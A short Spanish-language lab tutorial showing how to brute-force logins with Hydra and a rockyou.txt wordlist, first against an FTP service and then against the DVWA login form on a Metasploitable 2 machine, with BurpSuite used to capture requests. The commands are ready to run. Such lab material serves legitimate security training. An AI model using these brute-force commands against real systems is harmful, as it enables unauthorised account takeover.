



TIPS:

```sh
$ hydra ip ftp -l si_tengo_el_usuario -P rockyou.txt -s puerto
```

* ftp -> nombre del servicio a atacar
* -l -> ele minúscula si conozco el usuario 
* -L -> + un file que contenga posibles nombres de usuarios.
* -P -> si no conozco el password utilizo el diccionario de rockyou.txt
* -s -> y el puerto que voy a atacar

Si todo esto funciona -> puedo hacer:

```sh
$ ftp ip -> debería aparecer conectado
$ ftp > ls
$ ftp > 
```

Utilizar BurpSuite - Hydra - rocky.txt con la máquina Metasploitable 2:

```sh
$ hydra -l admin -P rockyou.txt 192.168.64.3 http-post-form ‘/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed’
```

Interceptamos los prosas con BurpSuite:



Comenzamos el ataque con hydra:



Efectivamente funcionan las credenciales:



